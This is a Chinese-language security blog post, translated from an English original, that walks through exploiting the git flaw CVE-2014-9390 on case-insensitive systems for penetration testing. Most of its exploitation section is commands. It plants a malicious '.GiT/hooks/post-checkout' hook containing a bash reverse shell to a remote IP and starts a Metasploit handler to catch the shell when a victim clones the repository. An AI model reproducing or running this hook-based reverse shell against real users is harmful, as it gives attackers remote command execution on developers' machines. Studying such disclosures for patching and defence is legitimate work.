 # One git command may cause you hacked(CVE-2014-9390)

2014/12/22 12:59 | [夺吻狂魔](http://drops.wooyun.org/author/夺吻狂魔 "由 夺吻狂魔 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from：https://www.mehmetince.net/one-git-command-may-cause-you-hacked-cve-2014-9390-exploitation-for-shell/

## 0x00 背景

* * *

CVE-2014-9390 是最近很火的一个漏洞，一个 git 命令就可能导致你被黑，我不打算深入探讨这个漏洞的细节，官方已经在[`github.com/blog/1938-git-client-vulnerability-announced`](https://github.com/blog/1938-git-client-vulnerability-announced) 和 [`article.gmane.org/gmane.linux.kernel/1853266`](http://article.gmane.org/gmane.linux.kernel/1853266)发布了详细信息。总之，如果你使用了大小写不敏感的操作系统例如 Windows 或 OSX，你应该更新 git 客户端了。

让我们以渗透测试的角度来看看这个漏洞。

## 0x01 准备

* * *

我创建了一个命名为 CVE-2014-9390 的新项目。

![enter image description here](img/img1_u155_png.jpg)

建立一个.GiT（大些 G，小写 i 然后大写 T）目录，创建一个 vulnerable.txt 文件，然后 push 到项目中。

```
root@rootlab:~/cve-2014-9390# mkdir .GiT
root@rootlab:~/cve-2014-9390# cd .GiT/
root@rootlab:~/cve-2014-9390/.GiT# echo "Vulnerable" >> vulnerable.txt
root@rootlab:~/cve-2014-9390/.GiT# cd ..
root@rootlab:~/cve-2014-9390# git add .
root@rootlab:~/cve-2014-9390# git commit -m 'poc'
[master bec157d] poc
1 file changed, 1 insertion(+)
create mode 100644 .GiT/vulnerable.txt
root@rootlab:~/cve-2014-9390# git push

```

我们再从 Windows 的电脑上用存在漏洞的 git 客户端 pull 同一个项目看看

```
rootlab@MINCE ~
$ git clone git@gitlab.com:mehmet/cve-2014-9390.git
Cloning into 'cve-2014-9390'...
Enter passphrase for key '/c/Users/rootlab/.ssh/id_rsa':
remote: Counting objects: 7, done.
remote: Compressing objects: 100% (3/3), done.
remote: Total 7 (delta 0), reused 0 (delta 0)R
Receiving objects: 100% (7/7), done.
Checking connectivity... done.

```

给大家看一下.git 目录，本应该在.GiT 目录的 vulnerable.txt 也在这里

![enter image description here](img/img2_u141_png.jpg)

## 0x02 利用

* * *

### 什么是 git 的 hooks

与许多其他版本控制系统类似，一些重要的动作发生时，git 有一个方法来执行自定义的脚本。hooks 分两方面：客户端和服务器端。当进行 commit 和 merge 时可以触发客户端的 hooks。

当执行 git 命令如 git pull 和 git checkout 时就可以执行客户端的脚本。

### 如何实现 git hooks？

重写.git/hooks 目录下的一个脚本文件，然后执行他，我们可以通过这个漏洞来实现。

我们创建一个假的 git 目录然后建立一个叫 post-checkout 的文件。

```
root@rootlab:~/cve-2014-9390# mkdir .GiT/hooks
root@rootlab:~/cve-2014-9390# echo '#!/bin/sh' > .GiT/hooks/post-checkout
root@rootlab:~/cve-2014-9390# echo 'bash -i >& /dev/tcp/[IPADDRESS]/443 0>&1' >> .GiT/hooks/post-checkout
root@rootlab:~/cve-2014-9390# git add .
root@rootlab:~/cve-2014-9390# git commit -m 'add reverse connection payload'
[master 389c979] add powershell payload
1 file changed, 4 insertions(+)
create mode 100644 .GiT/hooks/post-checkout
root@rootlab:~//cve-2014-9390# git push

```

我们在服务器端监听

```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD generic/shell_reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 108.61.164.142
msf exploit(handler) > exploit
[*] Started reverse handler on 108.61.164.142:443
[*] Starting the payload handler...

```

我们 clone https://gitlab.com/mehmet/cve-2014-9390

![enter image description here](img/img3_u126_png.jpg)

看起来都是很正常，但是……

![enter image description here](img/img4_u115_png.jpg)

版权声明：未经授权禁止转载 [夺吻狂魔](http://drops.wooyun.org/author/夺吻狂魔 "由 夺吻狂魔 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [GSM HACK 的另一种方法:RTL-SDR](http://drops.wooyun.org/papers/4716)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [GSM Hackeing 之 SMS Sniffer 学习](http://drops.wooyun.org/tips/723)
*   [Trying to hack Redis via HTTP requests](http://drops.wooyun.org/papers/3062)
*   [metasploit 渗透测试笔记(内网渗透篇)](http://drops.wooyun.org/tips/2746)
*   [CVE-2014-6271 资料汇总](http://drops.wooyun.org/papers/3064)